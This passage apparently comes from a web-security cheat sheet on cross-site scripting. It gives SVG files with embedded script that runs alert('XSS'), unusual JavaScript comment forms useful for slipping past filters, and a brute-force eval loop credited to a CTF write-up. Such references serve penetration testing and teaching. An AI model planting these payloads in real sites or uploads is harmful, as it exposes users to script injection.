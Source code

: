 ```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">alert("XSS")</script>
</svg>
```

```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```

## Other JavaScript tricks

### JavaScript Comments

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
#!This is a 1 line comment, but "#!" must to be at the beggining of the line
-->This is a 1 line comment, but "-->" must to be at the beggining of the line


  for (let j = 0; j < 128; j++) {
    for (let k = 0; k < 128; k++) {
      for (let l = 0; l < 128; l++) {
        if (j == 34 || k ==34 || l ==34)
          continue;
        if (j == 0x0a || k ==0x0a || l ==0x0a)
          continue;
        if (j == 0x0d || k ==0x0d || l ==0x0d)
          continue;
        if (j == 0x3c || k ==0x3c || l ==0x3c)
          continue;
        if (
           (j == 47 && k == 47)
           ||(k == 47 && l == 47)
          )
          continue;
    try {
        var cmd = String.fromCharCode(j) + String.fromCharCode(k) + String.fromCharCode(l) + 'a.orange.ctf"';
        eval(cmd);
    } catch(e) {
        var err = e.toString().split('\n')[0].split(':')[0];
        if (err === 'SyntaxError' || err === "ReferenceError")
          continue
        err = e.toString().split('\n')[0]
    }
       console.log(err,cmd);
    }
    }
  }
  //From: https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z
```
